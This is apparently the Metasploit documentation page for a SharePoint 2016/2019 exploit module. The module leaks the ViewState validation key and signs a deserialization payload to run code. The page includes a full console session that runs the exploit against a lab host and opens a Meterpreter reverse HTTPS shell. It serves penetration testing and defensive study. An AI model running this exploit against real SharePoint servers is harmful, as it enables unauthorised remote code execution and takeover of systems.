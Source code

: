 ## Vulnerable Application

### Description

The `EditingPageParser.VerifyControlOnSafeList` method fails to properly validate user supplied data. This can be
leveraged by an attacker to leak sensitive information in rendered-preview content. This module will leak the ViewState
validation key and then use it to sign a crafted object that will trigger code execution when deserialized.

The check method is unauthenticated and will determine whether or not the target service is vulnerable via the version
number. The exploit however requires authentication in order to trigger the vulnerability. See the documentation for the
[HttpUsername](#httpusername) option below for details on the account.

Tested against SharePoint 2019 and SharePoint 2016, both on Windows Server 2016.

### Setup

Follow [Microsoft's
documentation](https://docs.microsoft.com/en-us/sharepoint/install/install-sharepoint-server-2016-on-one-server).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### Windows Command

This executes a Windows command.

### Windows Dropper

This uses a Windows dropper to execute code.

### PowerShell Stager

This uses a PowerShell stager to execute code.

## Options

### HttpUsername

Set this to the SharePoint username. This user must have the `SPBasePermissions.ManageLists` permission on the targeted
SharePoint site. By default, SharePoint users may create their own site where they will have this permissions however
this action **is not automatically performed** by this module.

### HttpPassword

Set this to the SharePoint password.

### VALIDATION_KEY

Set this to the ViewState validation key if you have it.

### COOKIE

Set this to a SharePoint cookie if you have one. This is primarily useful for form auth.

### SP_LIST

Set this to the title of any valid SPlist on the targeted SharePoint site. The `Documents` SPlist is typically a safe
option.

## Scenarios

### SharePoint 2019 on Windows Server 2016

```
msf6 exploit(windows/http/sharepoint_unsafe_control) > set RHOSTS 192.168.159.46
RHOSTS => 192.168.159.46
msf6 exploit(windows/http/sharepoint_unsafe_control) > set VHOST shrpnt2019
VHOST => shrpnt2019
msf6 exploit(windows/http/sharepoint_unsafe_control) > set HttpUsername aliddle
HttpUsername => aliddle
msf6 exploit(windows/http/sharepoint_unsafe_control) > set HttpPassword Password1
HttpPassword => Password1
msf6 exploit(windows/http/sharepoint_unsafe_control) > check
[*] 192.168.159.46:80 - The target appears to be vulnerable. SharePoint 16.0.0.10337 is a vulnerable build.
msf6 exploit(windows/http/sharepoint_unsafe_control) > exploit

[*] Started HTTPS reverse handler on https://192.168.159.128:8443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. SharePoint 16.0.0.10337 is a vulnerable build.
[*] Leaking the ViewState validation key...
[+] ViewState validation key: F894731BF335C2DAB04D70773B5F6BE55EE2C4052B671EE3C6785497A3D29A94
[*] Executing PowerShell Stager for windows/x64/meterpreter/reverse_https
[*] https://192.168.159.128:8443 handling request from 192.168.159.46; (UUID: a5re3jes) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.159.128:8443 -> 127.0.0.1) at 2021-06-08 15:08:59 -0400

meterpreter > getuid
Server username: SHRPNT\SharePoint
meterpreter > sysinfo
Computer        : SHRPNT2019
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : SHRPNT
Logged On Users : 11
Meterpreter     : x64/windows
meterpreter > 
```
